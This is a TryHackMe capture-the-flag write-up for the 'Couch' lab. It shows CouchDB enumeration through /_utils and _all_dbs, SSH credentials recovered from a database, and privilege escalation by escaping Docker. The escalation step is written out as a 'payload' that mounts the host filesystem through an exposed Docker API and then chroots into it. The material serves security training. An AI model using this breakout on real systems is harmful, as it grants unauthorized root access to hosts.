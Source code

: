 * * *
 ### LAB: COUCH
 ### PLATFORM: TRYHACKME
* * *
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a104cfd1-ffd9-43e7-a1f3-a9f453a2d6a7)

- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c770c96-6287-4450-b44b-58cd3b038f2d)

- Nmap's service detection

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dc0b30d8-7982-473c-9930-3c4547640b60)

- I identified the web path with a documentation by tutorialspoint on COUCHDB [<a href="https://www.tutorialspoint.com/couchdb/couchdb_quick_guide.htm">Dcoumentation</a>]
- Path "/_utils" provides the database administration tool

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1f103828-1db1-4e37-847f-319eb0330a3f)

- Path "_all_dbs" shows all the dbs hosted on that service

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9bb59621-bcd1-4e3b-99cd-489a2e5d8209)

- The secret db reveals a ssh login and password

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/34cd4b97-df92-465e-a6d6-017f16c7b2ed)

- SSH access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c66b337a-a07c-42e3-8dd0-2b1e574d7737)

### PRIVESC WITH DOCKER BREAKOUT

- Command `netstat -antp` reveals a possible internal docker service running on port 2375

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3ea6a7d9-3256-4329-8dd2-1bbcfa26493a)

- We can check if there is a docker image on the service with `docker -H <ip>:<port> info`.There is a docker image but with no container.

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3be6360-1f1a-4584-8ab2-b29084f848bd)

- We can escalate privileges with this payload

      docker -H <IP>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
      chroot /mnt
- Root access

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/88e5a2ee-5649-4d52-bbf7-65898c2dab1d)
